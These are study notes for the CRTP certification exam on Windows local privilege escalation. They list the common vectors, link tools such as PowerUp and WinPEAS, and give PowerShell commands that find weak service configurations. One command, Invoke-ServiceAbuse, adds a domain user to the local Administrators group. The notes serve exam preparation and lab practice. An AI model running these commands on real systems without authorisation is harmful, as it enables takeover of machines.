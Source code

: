 # Local Privilege Escalation



{% hint style="info" %}
The CRTP exam consists of 5 target servers in addition to a foothold student machine.\
The goal is to OS level command execution on all 5 targets not matter what the privileges of the user.
{% endhint %}

####

## Vectors

#### There are various ways of locally escalating privileges on Windows box:&#x20;

* Missing patches – Automated deployment and AutoLogon passwords in clear text&#x20;
* &#x20;AlwaysInstallElevated (Any user can run MSI as SYSTEM)&#x20;
* &#x20;Misconfigured Services – DLL Hijacking and more&#x20;
* NTLM Relaying a.k.a. Won't Fix



This guide offer a sufficiently comprehensive overview of the course material for local privilege escalation

{% embed url="https://github.com/0xStarlight/CRTP-Notes/blob/main/2-Local-Priv-Esc/1-Local-PrivEsc.md" %}

## Tools

### PowerUp

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1" %}

### WinPEAS

{% embed url="https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS" %}

### Privesc

{% embed url="https://github.com/enjoiz/Privesc" %}

### Automated checks

```powershell
# PowerUp
Invoke-AllChecks

# winPEAS
winPEASx64.exe 

# Privesc
Invoke-PrivEsc
```

## Services

{% tabs %}
{% tab title="PowerUp" %}
Find vulnerable service configuration

```powershell
# Get services with unquoted paths and spaces
Get-ServiceUnquoted -Verbose

# Get services where current user can write to binary path
Get-ModifiableServiceFile -Verbose

# Get the services whose configuration current user can modify
Get-ModifiableService -Verbose
```

Add domain user to the local Administrators group

```powershell
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx' -Verbose  
```
{% endtab %}
{% endtabs %}
